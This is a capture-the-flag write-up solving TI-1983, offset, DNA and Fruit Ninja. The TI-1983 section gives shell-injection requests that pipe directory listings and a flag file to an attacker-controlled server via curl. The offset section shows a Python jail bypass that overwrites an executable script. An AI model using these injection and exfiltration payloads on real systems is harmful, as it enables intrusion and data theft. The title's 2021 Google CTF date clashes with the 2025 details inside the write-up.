

# 2021-07-17-Google-CTF

[CTFTime link](https://ctftime.org/event/2591) | [Website](https://play.ctf.gg/)

---

## Challenges

Note: I played with the [organisers team](https://ctftime.org/team/42934). The write-ups below are for challenges where I did a large part of the work (and found the time to actually write a write-up).

### Misc

- [x] 10 Sanity Check
- [x] 50 sky
- [x] 76 cowsay
- [x] [135 TI-1983](#135-misc--ti-1983)
- [x] 165 multisig-wallet
- [x] 262 Project Holoswap
- [x] 345 vs-math-ai
- [x] [352 offset](#352-misc--offset)
- [ ] 469 TI-1984

### Web

- [x] 50 Sculpture Revenge
- [x] 50 Extension Mania
- [x] 138 dry-ice-n-co
- [x] 156 Extension Mania revenge
- [x] 378 Teemo's Secret
- [ ] 469 Leaf

### Reversing

- [x] 50 Success
- [x] 50 fORtran
- [x] 50 Easy Come Easy Go
- [x] [156 DNA](#156-reversing--dna)
- [x] 238 liqUID glASS
- [x] [408 Fruit Ninja](#408-reversing--fruit-ninja)
- [ ] 500 100r1cs
- [ ] 500 tables

### Pwn

- [x] 50 debuggable-1
- [x] 102 debuggable-2
- [x] 114 babyrop
- [x] 216 blargh
- [x] 234 limit
- [ ] 419 debuggable-3
- [x] 469 teemo-tuesday
- [x] 484 accelerator

### Crypto

- [x] 50 saas
- [x] 109 never enough
- [ ] 322 LCGs are SBGs
- [x] 388 a special place in reality
- [ ] 430 sums
- [x] 456 spontaneous
- [ ] 500 flcg

### Forensics

- [x] 162 rorecovery2
- [ ] 322 rorecovery1
- [ ] 388 rorecovery3

### GuessCTF

- [ ] 500 guessctf

---

## 135 Misc / TI-1983

**Description**

Nothing wrong here. Nope. Stev the intern is very good at writing code.

**Files provided**

- [`ti-1983.tar.gz`](files/ti-1983.tar.gz)

**Solution**

We are presented with a basic calculator-like tool: we can enter a query, choose one of two "templates", and be presented with the result rendered in that template. Works for small math queries and rejects most queries longer than 3 characters.

Internally, the challenge went about answering our queries in a pretty strange fashion:

1. accept the `code` (our query) and the `template` as inputs in the query string;
2. check that the `code` is short (more on that later);
3. create a temporary Python file by pasting our `code` into a Python script template, where the code is surrounded by triple quotes, compiled using [RestrictedPython](https://pypi.org/project/RestrictedPython/), and then `eval`ed with no `builtin`s;
4. construct a URL (pointing to the same server) to the `static` endpoint, with our `template` passed in the query string;
5. check that the URL does not have too many emojis (or non-ASCII characters in general);
6. request the URL using an external process (`curl.exe -s {url}`);
7. check that the result contains the substring `{out}`;
8. execute the temporary Python file created in step 3;
9. substitute the output of that execution into the template.

There are a lot of strange choices here, but given the CTF also had a "TI-1984" challenge, we first looked at the `diff` between the two challenges, to see which parts might be relevant. In fact, only one file changed, `server.py`:

```diff
27c27
<     if len(code) > 3 and any(c in code for c in "0123456789+*-/"):
---
>     if len(code) > 3:
37c37
<     out_tmpl = os.popen(f"curl.exe -s {url}").read()
---
>     out_tmpl = subprocess.run(['curl.exe', '-s', url], stdout=subprocess.PIPE, stderr=subprocess.STDOUT).stdout.decode()
```

As a result, we focused on step 6, which, since the `url` string is not sanitised at all, allows for [shell injection](https://en.wikipedia.org/wiki/Code_injection#Shell_injection). After some time wasted on trying to make this work using additional arguments provided to `curl` (such as `-F` to upload a file over HTTP to a server we controls), I realised just piping into other commands works just fine in `os.popen`, even on Windows.

With that in mind, we could list the directory as so:

```sh
curl "https://(the remote)/ti-84?code=1&tmpl=normal.tmpl+|+dir+|+curl+http://(our server):1337+-F+%22x=@-%22+"
```

This pipes the output of `dir` (directory listing) as POST data to our server. It should be possible to construct similar commands which create a valid "template" (that passes step 7 above) while still containing the output of a directory listing or the flag, but we already had the server ready. With the command above, our server received a request like so:

```
POST / HTTP/1.1
Host: (our server):1337
User-Agent: curl/8.14.1
Accept: */*
Content-Length: 722
Content-Type: multipart/form-data; boundary=------------------------P4dBWlPaa89vvIacc41anm

--------------------------P4dBWlPaa89vvIacc41anm
Content-Disposition: form-data; name="x"; filename="-"

 Volume in drive C has no label.
 Volume Serial Number is 2C73-C453

 Directory of C:\app

06/14/2025  04:41 AM    <DIR>          .
06/14/2025  04:29 AM               208 code_tmpl.py
06/04/2025  05:42 AM         3,730,024 curl.exe
06/14/2025  04:29 AM              (33) flag_4dfa54cf005d9fea.txt
06/12/2025  06:47 AM                23 requirements.txt
06/14/2025  04:29 AM             1,927 server.py
06/14/2025  04:41 AM    <DIR>          static
               5 File(s)      3,732,215 bytes
               2 Dir(s)  136,137,388,032 bytes free

--------------------------P4dBWlPaa89vvIacc41anm--
```

After finding the flag filename (which is chosen at random every time the instance is launched), we could upload to our server with the same approach:

```sh
curl "https://(the remote)/ti-84?code=1&tmpl=normal.tmpl+|+type+flag_4dfa54cf005d9fea.txt+|+curl+http://(our server):1337+-F+%22x=@-%22+"
```

(After the CTF we realised we could have also escaped the restricted Python jail as long as we avoided using any of the characters `"0123456789+*-/"`.)

`.;,;.{command_injection_in_2025?}`

## 352 Misc / offset

**Description**

somehow this exists, don't question why

**Files provided**

- [`offset.tar.gz`](files/offset.tar.gz)

**Solution**

The setup for this challenge seems simple enough:

```python
#!/usr/local/bin/python
x = input("text: ")
if all((i % 2 != j % 2)*(j % ((i % 4) + 1) == 0) for i,j in enumerate(x.encode())):
    exec(x)
```

After an easily overlooked [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)), we are prompted for a line of input which will be `exec`uted, as long as it passes this strange check. Let's degolf it a little bit.

- `for i,j in enumerate(x.encode())`: the check walks through each byte of our input string (as encoded in UTF-8), keeping the (0-based) byte offset in `i` and the byte value in `j`;
- for each byte, it checks two things:
  - `(i % 2 != j % 2)`, that is:
    - bytes at even positions must have an odd value
    - bytes at odd positions must have an even value
  - `(j % ((i % 4) + 1) == 0)`, that is:
    - bytes at position 0, 4, 8, 12, ... must have a value divisible by 1
    - bytes at position 1, 5, 9, 13, ... must have a value divisible by 2
    - bytes at position 2, 6, 10, 14, ... must have a value divisible by 3
    - bytes at position 3, 7, 11, 15, ... must have a value divisible by 4
- `(i % 2 != j % 2) * (j % ((i % 4) + 1) == 0)`: multiplying the two checks together requires *both* to hold
- `all(...)`: finally, the cheks above must hold for *all* bytes of the input

The above explanation is still hard to visualise, so it's best to visualise which characters are concretely allowed at which offsets. It suffices to only visualise positions 0, 1, 2, and 3, because the pattern repeats (`i % 2` and `i % 4`). If we stick to only ASCII characters, we get these options:

```
i % 4 == 0: ! # % ' ) + - / 1 3 5 7 9 ; = ? A C E G I K M O Q S U W Y [ ] _ a c e g i k m o q s u w y { } 
i % 4 == 1:  " $ & ( * , . 0 2 4 6 8 : < > @ B D F H J L N P R T V X Z \ ^ ` b d f h j l n p r t v x z | ~
i % 4 == 2: !     '     -     3     9     ?     E     K     Q     W     ]     c     i     o     u     {
i % 4 == 3:    $   (   ,   0   4   8   <   @   D   H   L   P   T   X   \   `   d   h   l   p   t   x   |
```

Suffice to say, this is rather limiting! At a quick glance it seems we cannot use any of:

- `__` (dunder): common in Python jail escapes;
- `input`
- `eval`
- `exec`

On the other hand, `open` would be allowed, but only at `i % 4 == 2`.

```
i % 4 == 2: !     '     -     3     9     ?     E     K     Q     W     ]     c     i    <o>    u     {
i % 4 == 3:    $   (   ,   0   4   8   <   @   D   H   L   P   T   X   \   `   d   h   l  <p>  t   x   |
i % 4 == 0: ! # % ' ) + - / 1 3 5 7 9 ; = ? A C E G I K M O Q S U W Y [ ] _ a c<e>g i k m o q s u w y { } 
i % 4 == 1:  " $ & ( * , . 0 2 4 6 8 : < > @ B D F H J L N P R T V X Z \ ^ ` b d f h j l<n>p r t v x z | ~
```

To gain a better idea of which keywords or Python builtins we might be able to use without manually looking through the diagram above, we wrote a [script](scripts/offset-builtins.py):

```
i % 4 == 3: dir
i % 4 == 3: hex
i % 4 == 0: id
i % 4 == 2: id
i % 4 == 2: iter
i % 4 == 3: len
i % 4 == 2: open
i % 4 == 1: zip
i % 4 == 0: if
i % 4 == 3: def
i % 4 == 0: while
i % 4 == 0: in
i % 4 == 0: write
```

That's not a lot. Even though the `open` is still promising, we can't `read`. We explored some of these: perhaps iterating through an open file? But an issue still remained: the flag was placed in a randomised path, so we need to somehow list the files in the app directory first.

Fortunately, we came across Shirajuki's [PyJail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet), specifically the "Unicode bypass" section. After all, the filter checks for the *bytes* of our input. This is useful since it turns out Python is quite lenient about what it considers an identifier, and moreover, interprets many Unicode codepoints as the same as their ASCII counterparts. For example:

```python
>>> hello = 123
>>> 𝓱𝓮𝓵𝓵𝓸
123
```

In the above, `𝓱𝓮𝓵𝓵𝓸` is considered the same identifier as `hello` due to [NFKC normalisation](https://www.unicode.org/reports/tr15/).

We wrote [another script](scripts/offset-builtins2.py) that looks for all possible Unicode codepoints that normalise to an ASCII letter, then uses these equivalences to search for builtins again:

```
bin: [(1, 'bi𝔫'), (1, 'bi𝖓')]
chr: [(2, 'c𝒽𝐫'), (2, 'c𝒽𝒓'), (2, 'c𝔥𝐫'), (2, 'c𝔥𝒓'), (2, 'c𝖍𝐫'), (2, 'c𝖍𝒓')]
dir: [(1, 'di𝐫'), (1, 'di𝒓'), (3, 'dir')]
filter: [(1, 'fi𝐥ter'), (1, 'fi𝒍ter')]
hex: [(3, 'hex')]
id: [(0, 'id'), (2, 'id'), (2, 'i𝖽'), (2, 'i𝘥'), (2, 'i𝚍')]
input: [(2, 'i𝔫put'), (2, 'i𝖓put')]
int: [(2, 'i𝔫t'), (2, 'i𝔫𝔱'), (2, 'i𝔫𝖙'), (2, 'i𝔫𝘁'), (2, 'i𝖓t'), (2, 'i𝖓𝔱'), (2, 'i𝖓𝖙'), (2, 'i𝖓𝘁')]
iter: [(2, 'iter')]
len: [(3, 'len')]
map: [(1, 'ⓜap')]
max: [(1, 'ⓜax')]
min: [(1, 'ⓜin')]
open: [(2, 'open')]
ord: [(2, 'o𝐫d'), (2, 'o𝐫𝖽'), (2, 'o𝐫𝘥'), (2, 'o𝐫𝚍'), (2, 'o𝒓d'), (2, 'o𝒓𝖽'), (2, 'o𝒓𝘥'), (2, 'o𝒓𝚍')]
pow: [(3, 'poʷ')]
sorted: [(0, 'ˢo𝐫ted'), (0, 'ˢo𝒓ted')]
sum: [(0, 'sⓤm')]
super: [(0, 'ˢuper')]
tuple: [(1, 'tu𝘱le'), (1, 'tu𝚙le')]
zip: [(1, 'zip'), (1, 'zi𝘱'), (1, 'zi𝚙')]
write: [(0, 'write')]
```

Note that some of the above are actually not accepted by Python. In particular, the circled letters (e.g., i `ⓜax`) cause a `SyntaxError`. Nevertheless, we have a bit more choice, and in particular access to `input`. At this point we tried to combine the builtins to something useful. Another hitch we came across was whitespace: spaces are only allowed on odd offsets. Combining multiple lines was also a pain due to Python's indentation rules. After some trial and error, we had something like this:

```python
x = "".join([
    "if-456\t \t:\t \t\n",
    "\t \t \t@\t i𝔫put\t #\n",
    "\t \t \t@ˢo𝐫ted\t #\n",
    "\t \t \t@\t open\t #\n",
    "\t \t \t@\t i𝔫put\t #\n",
    "\t \t \tdef\td\t(cd):3",
])
```

This uses [decorators](https://docs.python.org/3/glossary.html#term-decorator) to execute functions without having to worry about matching parentheses. The string could be further minimised, but the more important problem is that Python asks for our string using `input`, so we cannot actually send newlines...

But, using the same general set of operations and facing the problem of properly positioning paretheses after all, we got to:

```python
x = "".join([
    "[ \t ",
    "\t open\t ",
    "\t(\t ",
    "\t i𝔫put\t ",
    "\t(\t ",
    "),\t ",
    "\t i𝔫put\t ",
    "\t(\t ",
    ") \t ",
    ") \t ",
    "\t.\t ",
    "write(\t ",
    "\t i𝔫put\t ",
    "\t(\t ",
    "\t \t ",
    ") \t ",
    ") \t ",
    "]",
])
```

Note the use of alternating tabs and spaces as padding, after wrapping everything in a pair of braces to avoid Python complaining about the leading indentation. The (UTF-8-encoded) length of each component above is a multiple of 4.

What this actually executes is this code:

```python
[open(input(), input()).write(input())]
```

That is, we open a file and write data to it, and we provide three more strings over additional lines:

- the path to the file,
- the mode to `open` it in, and
- the data to write to it.

Great! So why is this useful?

At the very beginning we noticed that the Python file starts with a shebang. As it turns out, the challenge setup is somewhat funky, because of these lines in the `Dockerfile`:

```dockerfile
  FROM python:3.13-slim as app
> COPY main.py /srv/app/run
> RUN chmod +x /srv/app/run
  COPY flag.txt /srv/app/
  RUN mv /srv/app/flag.txt /srv/app/flag_$(dd if /dev/urandom bs=16 count=1 | xxd -p).txt
  RUN apt-get update
  RUN apt-get install -y socat
> ENTRYPOINT socat TCP-LISTEN:5000,fork,reuseaddr,bind=0.0.0.0 EXEC:"/srv/app/run"
```

The Python file is copied into the container as `/srv/app/run`, its `x` bit is set, then `socat` listens to connections and handles them by directly executing `/srv/app/run`. With the writing gadget we set up above, we can alter the content of `/srv/app/run` as we see fit. For example, we can:

- connect to the (unmodified) remote,
- provide our encoded `[open(input(), input()).write(input())]` code,
- provide `/srv/app/run` as the file path,
- provide `a` as the mode (append, keeping the original content),
- provide `;import os;print([open("/srv/app/" + f).read() for f in os.listdir("/srv/app") if f.startswith("flag")])` as the data

At this point, the Python script is extended with code that will print a flag, whatever its exact filename is. We only need to reconnect again and provide any values to the `input`s. (There are more elegant ways to make use of the overwritable script, but alas.)

`.;,;.{lol_this_was_written_in_2023}`

## 156 Reversing / DNA

**Description**

deoxy ribo nucleic acid deoxy meaning without oxygen ribo meaning the 5-carbon sugar backbone nucleic meaning of the nucleus acid meaning proton donor

**Files provided**

- [`dna.tar.gz`](files/dna.tar.gz)

**Solution**


We are given two files: a `.pyc` file (containing compiled Python bytecode) and a `.dna` file which contains a lot of text restricted to the letters of DNA: `A`, `T`, `G`, and `C`. The bytecode file called `main.cpython-310.pyc`: the exact version, CPython 3.10, comes into play later.

To begin with, we decompiled the bytecode using a combination of [Pylingual](https://www.pylingual.io/) and `pycdc` (also available online [here](https://www.lddgo.net/en/string/pyc-compile-decompile)). Most of the decompile was clean enough except for cleaning up the `match` statement, resulting in this code (full version [here](files/dna-decompiled.py)):

```python
import marshal
import sys
s = []
m = {}
nm = {'A': 0, 'T': 1, 'G': 2, 'C': 3}
unlucky = [ ... ]
trans = lambda s: sum((nm[c] << 2 * i for i, c in enumerate(s)))
if len(sys.argv)!= 2:
    print(f'Usage: {sys.argv[0]} <dna_file>')
    sys.exit(1)
code = open(sys.argv[1]).read()
flag = input('> ').encode()
if len(flag)!= 56:
    exit('WRONG!')
if flag[:6]!= b'.;,;.{':
    exit('WRONG!')
if flag[(-1)]!= 125:
    exit('WRONG!')
flag = flag[6:(-1)]
for i in range(len(flag)):
    m[640 + i] = flag[i]
pc = 0
while pc < len(code):
    pri, pro = map(trans, [code[pc:pc + 2], code[pc + 2:pc + 12]])
    match pri:
        case 0:
            s.append(pro)
            pc += 12
        case 1:
            if not s:
                raise Exception('Stack underflow')
            s.pop()
            pc += 2
        case 2:
            if pro not in m:
                raise Exception(f'Uninitialized memory access at {pro}')
            s.append(m[pro])
            pc += 12
        case 3:
            if not s:
                raise Exception('Stack underflow')
            m[pro] = s.pop()
            pc += 12
        case 4:
            if len(s) < 2:
                raise Exception('Stack underflow')
            a, b = (s.pop(), s.pop())
            s.append(a + b)
            pc += 2
        # ...
        case 15:
            break
```

For the most part, this is a simple virtual machine with 16 opcodes. The VM uses:

- `code`: bytecode, coming from the `.dna` file (see later);
- `pc`: program counter, initialised to `0`;
- `s`: stack of integer values, initially empty;
- `m`: memory mapping integers to integers, initially empty except for the 49 flag characters (after stripping the prefix and suffix) stored at offsets `640` to `688`.

The opcodes are:

| opcode | immediate | pseudocode | description |
| --- | --- | --- | --- |
| 0 | Y | `push(imm)` | push immediate to stack |
| 1 |   | `pop()` | pop/discard top of stack |
| 2 | Y | `push(mem[imm])` | push value to stack from memory (at immediate address) |
| 3 | Y | `mem[imm] := pop()` | pop value from stack to memory (at immediate address) |
| 4 |   | `push(pop() + pop())` | pop 2 values from stack, push their sum |
| 5 |   | `push(pop() - pop())` | pop 2 values from stack, push their difference |
| 6 |   | `push(pop() * pop())` | pop 2 values from stack, push their product |
| 7 |   | `push(pop() % pop())` | pop 2 values from stack, push the remainder of their division |
| 8 |   | `push(pop() == pop())` | pop 2 values from stack, push 1 if they are equal, 0 otherwise |
| 9 | Y | `goto(imm)` | unconditionally jump to immediate address |
| 10 | Y | `if pop() == 1: goto(imm)` | pop value from stack, jump to immediate address if it was `1` |
| 11 | Y | `if pop() != 1: goto(imm)` | pop value from stack, jump to immediate address if it was not `1` |
| 12 |   | `print(pop())` | pop value from stack, print it as a single character |
| 13 |   | `exec(pop())` | pop value from stack, use it to decrypt and execute a special function |
| 14 |   | `swap_mapping(pop(), pop())` | pop 2 values from stack, swap the letter mapping for the corresponding values |
| 15 |   | `halt()` | stop execution |

The `.dna` file contains the letters `A`, `T`, `G`, and `C`. These are actually mapped into opcodes and integer values using the `nm` mapping, which is initially `{'A': 0, 'T': 1, 'G': 2, 'C': 3}`. Since there are four possible values for the letter, the mapping gives us 2 bits at a time. The `trans` function accepts a string of letters and converts them to an integer. It uses the current `nm` mapping to map letters to bits, and it concatenates bits as expected (so a 3-letter string turns into `3 * 2 == 6` bit integer).

The `swap_mapping` instruction (although never actually used in the given `.dna` file!) is our first hint that the `nm` mapping will not remain constant throughout the execution of the code. When this instruction is executed, the rest of the file has to be decoded using a different interpretation.

After writing a [disassembler](scripts/dna-decompiler/src/dis.rs), we can see big blocks with many multiplication and addition operations:

```
      ; section at 00000, coding: [0, 1, 2, 3]
00000 : GAAAAGGAAAAA     push(mem[#0280])
0000c : AAGGGTAAAAAA     push(#0000006a)
00018 : GT               push(pop() * pop())
0001a : GATAAGGAAAAA     push(mem[#0281])
00026 : AACGTAAAAAAA     push(#0000001b)
00032 : GT               push(pop() * pop())
00034 : GAGAAGGAAAAA     push(mem[#0282])
00040 : AAACAGAAAAAA     push(#0000008c)
0004c : GT               push(pop() * pop())
0004e : GACAAGGAAAAA     push(mem[#0283])
0005a : AAGGAGAAAAAA     push(#0000008a)
00066 : GT               push(pop() * pop())
00068 : GAATAGGAAAAA     push(mem[#0284])
00074 : AAACGTAAAAAA     push(#0000006c)
00080 : GT               push(pop() * pop())
        ...
004e0 : GAAACGGAAAAA     push(mem[#02b0])
004ec : AATAGGAAAAAA     push(#000000a1)
004f8 : GT               push(pop() * pop())
004fa : AT               push(pop() + pop())
004fc : AT               push(pop() + pop())
004fe : AT               push(pop() + pop())
00500 : AT               push(pop() + pop())
00502 : AT               push(pop() + pop())
00504 : AT               push(pop() + pop())
00506 : AT               push(pop() + pop())
        ...
00558 : AT               push(pop() + pop())
0055a : CAAAAAAATAAA     mem[#1000] := pop()
00566 : GAAAAGGAAAAA     push(mem[#0280])
00572 : AAAGCAAAAAAA     push(#00000038)
0057e : GT               push(pop() * pop())
        ...
```

Eventually we hit our first `exec` instruction, after which the bytecode does not make sense anymore, indicating that the letter coding may have been changed by the instruction as well.

```
        ...
03b52 : AT               push(pop() + pop())
03b54 : AT               push(pop() + pop())
03b56 : CAAGGAAATAAA     mem[#1028] := pop()
03b62 : GAGGTGGAAAAA     push(mem[#029a])
03b6e : TC               exec(pop())
```

The VM interprets `exec` as follows:

```python
        case 13:
            if not s:
                raise Exception('Stack underflow')
            key = s.pop()
            def f():
                return
            f.__code__ = marshal.loads(bytes([b ^ key for b in unlucky.pop(0)]))
            f()
            pc += 2
```

Where `unlucky` is an array of four bytestrings embedded in the original `.pyc` file. After taking the next available `unlucky` bytestring, it XOR's each byte with the decryption key, coming from the stack, then it deserialises the data (using the native [`marshal` module](https://docs.python.org/3/library/marshal.html)) and uses it as the bytecode for a function, which is immediately called. In the `.dna` disassembly above, we can see that the value passed to `exec` is `mem[0x029A]`, which was initially set to `flag[26]`. This means that by finding the correct decryption key should also let us know one byte of the flag.

We could try to find correct decryption keys by checking every possible ASCII byte and seeing if Python successfully deserialises the data *and* allows the result to be assigned to `f` (i.e., the deserialised data is actually code). Invalid bytestrings might raise exception for either step. As it turns out (after some bruteforcing and manual inspection), there is a simpler way to obtain the correct keys: after decryption, all four bytestrings contain the string `unlucky`, presumably used to indicate the location in error messages.

The correct keys for the `unlucky` bytestrings are `111`, `117`, `105`, `97`.

However, even with the correct keys, we have to make sure that we use the correct version of Python (CPython 3.10), otherwise `marshal` will not deserialise the bytestring correctly.

The decrypted functions vary in complexity but in the end only modify `nm`, the mapping of letters to bits. The last `unlucky` function seems to be the most complex (and we didn't completely decompile it during the CTF), but it also seems to be the only one that doesn't end up modifying `nm`. We can step through the execution of the VM and keep track of `nm` after each `exec` instruction:

- initial value: `{'A': 0, 'T': 1, 'G': 2, 'C': 3}`
- after `unlucky[0]`: `{'A': 1, 'T': 2, 'G': 3, 'C': 0}`
- after `unlucky[1]`: `{'A': 3, 'T': 0, 'G': 2, 'C': 1}`
- after `unlucky[2]`: `{'A': 2, 'T': 0, 'G': 1, 'C': 3}`
- after `unlucky[3]`: `{'A': 2, 'T': 0, 'G': 1, 'C': 3}`

At this point we know some bytes of the flag and we can disassemble the entire `.dna` file. However, to get a clearer overview of what all the operations actually end up doing, and since this is a fairly simple stack machine, we also wrote a [decompiler](scripts/dna-decompiler/src/dec.rs).

The decompiler uses symbolic execution: it executes the bytecode, but its stack contains symbolic values:

```rust
enum SymVal {
    Binop(Binop, Box<SymVal>, Box<SymVal>),
    Const(u64),
    FlagByte(u64),
    MemByte(u64),
}
```

When constructing `SymVal`s, binary operations on constants can be directly simplified, otherwise both operands are kept. As a result, we can see that the entire bytecode in the `.dna` file can be summarised as (full decompile [here](scripts/dna-decompiler/decomp.txt)):

```
0055a  memory[#1000] := flag[0] * 106 + flag[1] *  27 + flag[2] * 140 + ... + flag[47] * 220 + flag[48] * 161
00ac0  memory[#1004] := flag[0] *  56 + flag[1] * 249 + flag[2] * 152 + ... + flag[47] * 231 + flag[48] *  61
01026  memory[#1008] := flag[0] * 149 + flag[1] * 104 + flag[2] *  66 + ... + flag[47] * 156 + flag[48] * 150
// ...
108b2  memory[#10c0] := flag[0]  * 10 + flag[1] * 177 + flag[2] *  31 + ... + flag[47] * 186 + flag[48] * 219
10e26  if (((mem[#1000] == 692012) + (mem[#1004] == 611030) + ... + (mem[#10c0] == 710793) == 49) != 1) goto #10ec8
10e3e  print("CORRECT!\n")
10eb0  goto #10f1e
10ec8  print("WRONG!\n")
```

49 values in memory store sums of multipliying all 49 bytes of the flag by various integer constants. These are then compared to target values. In other words, we have a matrix equation of the form `Ax = b`, where `A` is a 49x49 matrix of values (the constants we use to multiply the flag bytes), `x` is our input (the flag bytes), and `b` is the target vector.

At this point we can use z3 or even better, something like `sage` (script [here](scripts/dna-solve.sage)), to invert the matrix and obtain the flag bytes.

`.;,;.{we_ought_to_start_storing_our_data_as_dna_instead}`

## 408 Reversing / Fruit Ninja

**Description**

my friend made a custom cpu, so of course i had to make a game for it. can you win? @unvariant REMEMBER TO GIVE THEM CPU

**Files provided**

- [`fruitninja.tar.gz`](files/fruitninja.tar.gz)

**Solution**

We are given an implementation of a CPU in Verilog, as well as a ROM file and a RAM file. After *some time* spent poring through the Verilog code...



Yup, it's just [RISC-V](https://en.wikipedia.org/wiki/RISC-V) (or a small subset of it), which became obvious after searching online for instruction mnemonics found in various comments in the code (e.g., `jal`, `jalr`). Loading the `rom_file.mem` file in Ghidra (after decoding the hexdump into binary data) and loading it as RISC-V (either 32-bit or 64-bit, didn't make much difference) worked wonders.

Since the binary is tiny, there is not much to reverse. We found:

* the `main` function;
* a *huge* (!) function that seems to just implement a "modulo" operation;
* a hypervisor_call function, which looks like a no-op in Ghidra but causes the Verilog wrapper to actually perform some I/O operation; and
* `readline` and `print` wrappers of the hypervisor call.

<details>
<summary>Ghidra decompilation of the `main` function, lightly cleaned up.</summary>

```c
void main(void) {
  int *cmp_ptr;
  int iVar1;
  uint ui_pos;
  int user_input_len;
  int *cmp_block_ptr;
  int errors;
  int errors_in_block;
  uint uVar2;
  uint processed [50];
  byte user_input [38];
  byte ui_char;
  print("cut my fruit in half:");
  user_input_len = readline(user_input);
  if (user_input_len == 0x25) {
    uVar2 = 0;
    ui_pos = 0;
    user_input[37] = 0;
    user_input_len = 0;
    // process input
    do {
      ui_char = user_input[ui_pos];
      errors_in_block = modulo(ui_pos & 0xff,3);
      processed[user_input_len] = (uint)ui_char << (errors_in_block << 1 & 0x1fU) & 0x3f | uVar2;
      uVar2 = (uint)(ui_char >> ((errors_in_block << 1 ^ 6U) & 0x1f));
      errors = user_input_len + 1;
      if (errors_in_block == 2) {
        errors = user_input_len + 2;
        processed[user_input_len + 1] = uVar2;
        uVar2 = 0;
      }
      ui_pos += 1;
      user_input_len = errors;
    } while (ui_pos != 0x26);
    // check processed input
    user_input_len = 0;
    cmp_block_ptr = NULL;
    errors = 0x32;
    do {
      ui_pos = 0;
      errors_in_block = 0;
      cmp_ptr = cmp_block_ptr;
      do {
        iVar1 = *cmp_ptr;
        if (processed[user_input_len] <= ui_pos) {
          iVar1 = -iVar1;
        }
        errors_in_block += iVar1;
        ui_pos += 1;
        cmp_ptr = cmp_ptr + 1;
      } while (ui_pos != 0x40);
      errors -= (uint)(errors_in_block == 0);
      user_input_len += 1;
      cmp_block_ptr = cmp_block_ptr + 0x40;
    } while (user_input_len != 0x32);
    if (errors == 0) {
      print("yes\n");
      return 0;
    }
  }
  print("no\n");
  return 1;
}
```

</details>

The `main` function does the following:

- asks the user for input (the flag);
- checks that the input is 37 bytes long;
- processes the input, turning it into 50 integers; and
- checks that each integer is correct, referring to data in the "RAM".

The "processing" part is similar to a [Base64](https://en.wikipedia.org/wiki/Base64) encoding: every three input bytes (`3 * 8 = 24 bits`) turn into four output integers between `0` and `63 == 2**6` (`4 * 6 = 24 bits`). This is where the `modulo` operation is invoked with an argument of `3`.

The next check is more interesting. For each of the 50 integers, we execute the following inner loop, which goes through 64 iterations:

```c
for (int i = 0; i < 64; i++) {
    int v = *ram_data;
    if (processed[outer_idx] <= i) {
        v = -v;
    }
    errors_in_block += v;
    ui_pos += 1;
    ram_data = ram_data + 1;
}
errors -= (uint)(errors_in_block == 0);
```

`ram_data` points to an area in the RAM which contains `3200` integers, i.e., 64 for each of our 50 integers. `v` is either set to an integer from the RAM, or else it is negated, depending on whether our processed integer is still below the current `i`. `v` is then added to an accumulator which must be `0` at the end.

We can visualise this process a bit better by imagining the RAM data as 50 row of 64 columns of numbers. Our input amounts to choosing, for each row, where to split the columns into two groups. A correct choice is one where the numbers on the left side of our split have the same sum as the numbers on the right side. Here is a smaller example with 3 rows of 8 numbers:

| | | | | | | | | |
| --- | --- | --- | --- | --- | --- | --- | --- | ---:|
| 3 | 7 | 2 | 1 > | < 1 | 2 | 9 | 1 | *(both sides add up to 13)* |
| 13 | 9 > | < 2 | 1 | 9 | 4 | 5 | 1 | *(here: 22)* |
| 3 | 0 | 0 | 1 | 1 | 3 > | < 2 | 6 | *(here: 8)* |

A more general form of this problem (where one chooses *any* subset of the numbers on the line to be part of one group, rather than just choosing a position in an ordered sequence) is known as [partitioning](https://en.wikipedia.org/wiki/Partition_problem).

With a [solver script](scripts/fruit-ninja-solve.py), we found the partitions and were thus able to get the original bytes:

`.;,;.{PPPerfect_pr3c15e_p4rT1Ti0ning}`
